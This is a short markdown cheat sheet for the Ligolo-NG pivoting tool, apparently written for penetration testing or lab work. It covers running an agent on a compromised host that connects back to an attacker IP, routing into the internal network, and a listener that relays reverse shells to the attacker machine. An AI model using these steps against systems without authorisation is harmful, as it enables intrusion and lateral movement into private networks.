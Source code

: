 # Ligolo-NG

## [Download](https://github.com/nicocha30/ligolo-ng)

## Usage
* Agent Setup
  - Upload agent to compromised host
  - Execute agent
  ```bash
  # Linux
  ```
  ```powershell
  # Windows
  ```
* Attacker Machine Setup
  - Create interface for Ligolo to use
  ```bash
  sudo ip tuntap add user <username> mode tun ligolo

  sudo ip link set ligolo up

  # Verify iface added
  ip addr show ligolo
  ```
* Start Ligolo-NG
  ```bash
  proxy
  ```
* Run the agent on the pivot machine
  ```bash
  agent -connect <attacker IP:11601>
  ```
  - Should see agent joined on the attacker machine
* Select Agent on Attacker machine
  ```bash
  session
  ```
* Add route on attacker machine
  ```bash
  sudo ip route add <pivot network> dev ligolo
  # Example: sudo ip route add 10.10.11.0/24 dev ligolo
  ```
* In the proxy interface, start the tunnel
  ```bash
  start
  ```
* Setup is done, you should be able to access the proxy environment. No proxychains, etc required

### Setup to access the pivot host (Pivot host will be unavailable when ligolo is running)
* Add special route with *magic* ip address
  ```bash
  sudo ip route add 240.0.0.1/32 dev ligolo
  ```
  - accesses 127.0.0.1 on the pivot box

### Setup for reverse shell
* In the proxy shell on the attack machine, add a listener
  ```bash
  listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
  ```
  - Adds a listener on the agent machine, port 30000 and forwards to us on port 10000

